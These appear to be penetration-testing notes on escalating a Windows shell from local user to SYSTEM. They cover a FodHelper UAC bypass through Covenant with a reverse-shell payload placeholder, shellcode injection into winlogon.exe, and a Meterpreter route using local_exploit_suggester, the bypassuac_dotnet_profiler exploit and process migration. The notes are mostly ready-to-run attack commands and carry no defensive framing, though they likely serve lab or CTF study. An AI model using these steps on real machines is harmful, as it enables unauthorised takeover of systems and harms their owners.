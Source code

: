 > now we have a better shell



## FodHelper UAC Bypass with Covenant

FodHelper is a trusted WIndows binary, that u can use to bypass UAC
we are going from local user to local administrator

```
PowerShellImport > browse > helper.ps1
powershell helper -custom "cmd.exe /c <revshell payload from covenant>"
local user to local administrator shell

# Launcher > ShellCode > Net40 > Generate > Download > save the file
```

### Covenant
```
Inject > ProcessID ( PID of a SessionId >0 that has system access, usually winlogon.exe )
browse > select our shellcode file
# we should get authority\system access
```

#### [+] Extra Info
So the level Integrity of the escalation went:
```
Medium: local user
High: local admistrator
System: authority\system 
```


### With Meterpreter
Get an initial shell:
```bash
run post/multi/recon/local_exploit_suggester
use exploit/windows/local/bypassuac_dotnet_profiler
set options
exploit -j
```

Go to the new session:

> we are **local admin** , lets escalate even more

```bash
ps = to show processes
```

lets migrate to a process that has:
```
# SessionID=1 & authority\system access
migrate <PID> 
# again, usually winlogon.exe its a good choice
```
